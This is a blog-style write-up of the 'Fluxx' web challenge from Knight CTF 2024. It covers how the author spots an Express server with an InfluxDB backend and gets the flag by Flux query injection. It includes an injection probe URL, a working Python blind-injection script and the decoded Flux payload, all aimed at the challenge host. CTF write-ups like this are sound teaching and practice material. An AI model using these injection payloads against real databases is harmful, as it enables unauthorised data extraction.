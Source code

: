 ```yaml
---
layout: post
title: "InfluxDB NoSQL SQL injection | Fluxx web CTF challenge writeup | Knight CTF 2024"
author: "Colleirose"
permalink: /influxdb-injection-nosql-injection-knightctf-2024
date: 2024-01-23
---
```


This is the challenge:
![challenge name and description](/assets/img/challenge fluxx.png)

Based on the X-Powered-By header being Express on all pages and receiving a <code>Cannot GET /(requested url)</code> on non-existent URLs (e.g. <a href="http://66.228.53.87:9001/a" rel="noopener">66.228.53.87:9001/a</a>), I can infer this is a <a href="https://expressjs.com/" rel="noopener">Express.js</a> server.
<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198507422340358154/image.png?ex=65bf2804&is=65acb304&hm=e6100f755e6fed1f1811b7c852c048c3745f18e73d8a522bebe57997bd84b337&"/>

One of our team member finds https://book.hacktricks.xyz/pentesting-web/nosql-injection then checks finds that visiting <code>http://66.228.53.87:9001/query?data='%20||%201==1//%20%20%20%20or%20%20%20%20'%20||%201==1%00%20%20%20%20%20or%20%20%20%20admin'%20||%20'a'=='a</code> creates an erorr

I search this error online and learn that it's an error related to <a href="https://github.com/influxdata/influxdb" rel="noopener">InfluxDB</a>, which I haven't heard of until this challenge.
<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198512198323011714/image.png?ex=65bf2c77&is=65acb777&hm=e54a3bc3373d4d041b72b951d42801b3487e256700888636c283a9552efe1ca5&"/>

This also matches up with the challenge name and description:
![challenge name and description](/assets/img/challenge fluxx.png)

Searching about SQL injection in InfluxDB, I find <a href="https://rafa.hashnode.dev/influxdb-nosql-injection" rel="noopener">https://rafa.hashnode.dev/influxdb-nosql-injection</a>.

After facing some errors, I go back to the article I was copying this code off of and decide to fix my code.
<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198513709031637003/image.png?ex=65bf2ddf&is=65acb8df&hm=eeb3617382a263ce1ce589dc27892b740e910247df434365bad677b61a3fab9d&"/>
<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198513949394616340/image.png?ex=65bf2e18&is=65acb918&hm=62e920b35f5221c448fcc7f8d1c98179636f2c4c33ce432cf061540f41d80660&"/>

Fixed code:
<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198514115224801290/image.png?ex=65bf2e40&is=65acb940&hm=5d58a580b01c184c15b0261c29c794e69816ad572a42be4d6d6d7535f1ddf1ab&"/>

But this is very inefficient to do manually. I find a script on <a href="https://book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql">book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql</a> that can automate this. It requires a bit of changes, but here's the working script, based on the Hacktricks resource:

```py
import requests, string

alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(21):
    print("[i] Looking for char number "+str(i+1))
    for char in alphabet:
        r = requests.get("http://66.228.53.87:9001/query?data=%22)%20%7c%3e%20yield(name%3a%20%221337%22)%20%0d%0abuckets()%20%7c%3e%20filter(fn%3a%20(r)%20%3d%3e%20r.name%20%3d~%20%2f%5e" +flag+char+".*%2f%20and%20die(msg%3ar.name))%20%0d%0a%2f%2f")
        if (r.text != "[]"):
            flag += char
            print("[+] Flag: "+flag)
            break
```

The script then crashes with some error about the connection being aborted but tells me the correct string starts with K

<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198516018990022656/image.png?ex=65bf3006&is=65acbb06&hm=6daf3321672585f519bc72aad4c5c09a548adb8a33a7433c85a85912689047bf&"/>

So I went back to Burp Suite and tried it again with the K

<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198516141547597844/image.png?ex=65bf3023&is=65acbb23&hm=a47b3cc0a025b538b9d8c4066d7df9ea0cf41b2ae9d9e7e3470105ab595f66e3&"/>

This flag is correct when submitted:

<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198516330303860746/image.png?ex=65bf3050&is=65acbb50&hm=93434d1d3de29bb8e78eac99de0a0bfe0361b1ae9965f7a7a9f2da24f7bb74e4&"/>

This is the code with the URI parameters decoded. I don't fully understand what it does because I've never used NoSQL or InfluxDB before.

```
") |> yield(name: "1337") 
buckets() |> filter(fn: (r) => r.name =~ /^K.*/ and die(msg:r.name)) 
//
```

I don't know what the first line does, but the second line calls a function to list buckets called <code>buckets()</code> and filters for buckets with a name that matches the regular expression <code>/^K.*/</code>. If it finds one, it dies with the bucket's name. The third line is a comment.

In retrospect, maybe <code>/^.*/</code> would've worked fine.